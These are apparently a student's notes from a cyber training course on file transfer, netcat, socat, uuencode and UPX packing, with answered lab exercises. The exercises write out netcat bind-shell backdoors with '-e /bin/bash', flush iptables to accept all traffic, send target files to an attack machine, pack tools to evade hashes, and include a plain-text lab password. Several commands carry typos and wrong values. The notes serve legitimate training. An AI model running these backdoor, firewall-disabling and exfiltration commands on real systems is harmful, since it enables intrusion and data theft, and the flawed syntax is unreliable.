





# CTE - Week 5

## Classroom Links

* [Teams](https://teams.microsoft.com/l/team/19%3a7a166f374eb44c89bb972a20cf5a3d6e%40thread.tacv2/conversations?groupId=b0216bab-7ebb-498b-af22-3d7c8db2d92f&tenantId=37247798-f42c-42fd-8a37-d49c7128d36b)  
* [CLME](https://learn.dcita.edu/)
* [CTE_TTPs_Lab_Manual_CTA_1901](.\Files\CTE_TTPs_Lab_Manual_CTA_1901.pdf)

## Module 2 — Lesson 6: File Transfer

### Transferring Files

Common Name | Acronym | Typical Ports
--- | --- | ---
Secure Copy Protocol/Secure Shell |  SCP/SSH | TCP 22
File Transfer Protocol | FTP | TCP 20, 21
Trivial File Transfer Protocol | TFTP | TCP 69
Hypertext Transfer Protocol / HyperText Transfer Protocol Secure | HTTP/HTTPS | HTTP: TCP 80 / HTTPS: TCP 443
Server Message Block / Common INternet File System | SMB/CIFS | SMB: TCP 445
Network File System | NFS | TCP / UDP 2049, 111

* Secure Copy
  * `scp [ [user@] src host: ] src file [ [user@] dst host: ] dst file`
  * SCP Pullig
    * `user@src_host:src_file dst_file`
  * SCP Pushing
    * `scp src_file user@dst_host:dst_file`
* Windows SMB
  * `net use <drive letter > :< sharename> / user: [domain] \ < username>`

### Netcat

* Networking "Swiss Army knife"
* Can either initiate a TCP/UDP connection or bind to a port and listen for incoming connections
* Can be used for file transfers, banner grabbing, and port scanning
* Syntax varies depending on OS and Netcat version
* Netcat is not identical to ncat
    Common Option | Use
    --- | ---
    -e | \<prog> Inbound execute program, often removed
    -l | Listen for inboun connections
    -p \<port> | Local Port number
    -u | UDP mode
    -v | Verbose mode
    -h | Help

### Basic Netcat Usage

* Open a listening port on your Windows 7 VM
  * Don't forget to check your syntax  
    
* Connect to Windows 7 VM from CentOS
    

### Using Netcat to Get a Remote Shell

* Use the -e option to execute a program after connection
    
* Ensure the nc version you are using has the —e option.

### Transferring Files With Netcat

* Receiver sets up listener; sender calls forward
  * Destination: `nc -l <dst port> > <filename>`
  * Source: `nc 10.0.2.2 <dst_port < <filename>`
  
* Reverse transfer
  * Sender sets up listener; receiver calls back
  * Source: `nc -1 <src port > < <filename>`
  * Destination: `nc <src_ip> <src_port> <filename>`
    

### Socat

* Socat accepts two bidirectional byte streams and transfers data between them.
* Typical Examples:
  * Opens TCP over IPv4 `TCP4: <host>:<port>`
  * Opens a TCP listener on port, IPv6 only `TCP6-LISTEN:<port>,fork`
    * `fork` option - multiple simulataneous uses
  * Autoselect network protocol based on \<host> `UDP:<host>:<port> -open UDP connection`

### Transferring Files via Terminal

* Sometimes all you have is a console window
  * For example, telnet; shell from exploitation
* Paste can copy text, but what about binaries
  * Need to encode as text, then paste and decode
* Solutions
  * uuencode/uudecode—common on UNIX
  * Interpreters on target—Perl, Python, Bash, GCC
    * For example, perl has uudecode built in

### Packers

* Executable packers are applications that compress and obfuscate an executable
  * Smaller-sized executable
  * Different file hash
* A common packer used by malware us UPX
  * Most antivirus software detects the presence of UPX packing and flags it as possible
* The following example is provided for the upx.exe program to create a UPX-compressed executable
  * `upx.exe -o <Outfile> -<0-9> <Input File>`

## Exersise - Module 2, Lesson 7 – File Transfers

### Scenario 1

1. Scan TCP ports 2 through 90 on the target machine. Create scans that will do the following:  
  a. Return messages on Standard Error with as much detail as possible  `-v`  
  b. Not perform a DNS Inquiry `-n`  
  c. Emit a packet without payload  `-z`  
  d. Timeout after 1 second  `-w1`  
  e. Record the actions taken  `nc -v -n -z -w1 10.10.1.70 2-90`  

Port | Service | Status
--- | --- | --- 
88 | Kerberose | Time Out
87 | Link | Time Out
80 | http | Open
78 | Finger | Time Out
70 | gopher | Time Out
68 | Bootpc | Time Out
67| BootPS  | Time OUt
65 | tacacs-ds | Time OUt
53 | Domain | Time Out
50 | re-mail-ck | Time Out
49 | tacacs | Time Out
43 | Whois | Time Out
42 | NameServer | Time Out
37 | time | Time Out
25 | smtp | Time Out
23 | telnet | Open
22 | ssh | Open
21 | ftp | Time Out
20 | ftp-data | Time Out
19 | chargen | Time Out
18| msp | Time Out
17 | qotd | Time Out
15| netstat | Time Out
13| daytime | Time Out
11 | systat | Time Out
09 | discard | Time Out
07 | echo | Time Out

2. If a web port is open, what is the port number?
   * `80`
3. Use netcat on the Kali machine to connect to the target. Once the connection is made, retrieve the target’s banner. 
   * `echo "" | nc -v -n -w1 10.10.1.70 2-90`
   * 80 - Server: Apache/2.4.18 (Ubuntu)
   * 22 - SSH-2.0.OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
4. Flush the iptables on the Ubuntu machine, clear any additional chains and ensure all default tables’ policies are set to ACCEPT.
   * `sudo iptables -F`
   * `sudo iptables -P INPUT ACCEPT`
   * `sudo iptables -P FORWARD ACCEPT`
   * `sudo iptables -P OUTPUT ACCEPT`
5. Create two persistent listeners (backdoors) on the Ubuntu machine. Use port 8888 for the first listener and 9999 for the second listener.
   * `nc -l -p 8888 -e /bin/bash`
   * `nc -l -p 9999 -e /bin/bash`
6. Connect to the first Ubuntu listener using Kali on port 8888.
   * `nc 10.101.70 8888`
7. Create a listener on the Kali machine to accept the incoming file transfer on port 6666.
   * `nc -l -p 6666 > filein.txt`
8. Create a services.txt file by running the following command:
sudo systemctl list-units --type service --all > / home/intern01/services.txt
9. Transfer the /home/intern01/services.txt file to Kali and document the
command/syntax used.
   * On Ubuntu - `nc 10.10.1.60 6666 < services.txt`
10. Connect to the second Ubuntu listener using Windows 10 on port 9999.
11. Create a listener on the Windows 10 machine to accept the incoming file transfer on port 7777. Transfer the /home/intern01/services.txt file to Windows 10.
    * On Win10 - `nc -l -p 7777 > filein.txt`
    * On Kali vi `nc 10.10.1.70 9999` `nc 10.10.1.20 7777 < services.txt`

### Scenario 2

1. From the Windows 10 machine, use PuTTY to telnet into the Ubuntu machine with username intern and the password password.
   * `intern01:CTEPasswd1976`
2. Find the uuencode/uudecode tool in the Windows Administrator’s “NetworkTools” folder.
    * `c:\users\srogers\Desktop\NetworkTools\uuencode.exe`
3. The uuencode syntax differs slightly between Linux/Unix and Windows; uuencode the socat binary from the Network Tools directory and name the file socat.uu.
    * `uuencode.exe socat_1.7.2.3-1_i3896.deb socat.uu`
4. How big is the uuencoded socat binary in KB? `418268 kb`
5. Open the recently encoded file with Notepad++.
a. Select all the file content by pressing \<CTRL> + A
b. Copy to the clipboard by pressing \<CTRL> + C
6. On the putty telnet prompt execute the following cat > socat
   * `cat > socat` `Copied text`
7. Once the word “end” appears in the PuTTY window, stop the transfer by pressing \<CTRL> + D
8. What is the size in KB of the transferred file? `411639`
9. Is the file size the same as the original executable? `It is larger`
10. What needs to change for the file to be executed successfully on the new host?
    * `Decode on the other side`

### Scenario 3

1. Open a command prompt and navigate to the Transfer directory on the Windows 10 desktop.
2. Use upx.exe to pack fpipe.exe.
   * `upx.exe -9 -o fpipe.pak fpipe.exe`
3. Use upx.exe to pack windump.exe.
   * `upx.exe -9 -o windump.pak windump.exe`
4. Change the file extension from .pak to .exe and delete the original files.
5. Use netcat to move the files from the Attack/Ops machine to the Target.
   * On win10 `nc.exe -l -p 5555 < windump.exe`
   * On kali `nc 10.10.1.20 555 > windump.exe`
6. Verify the file transfer.
   * `ls -lah windump.exe` - 219 kb
7. Cleanup.
8. Tear down communications.
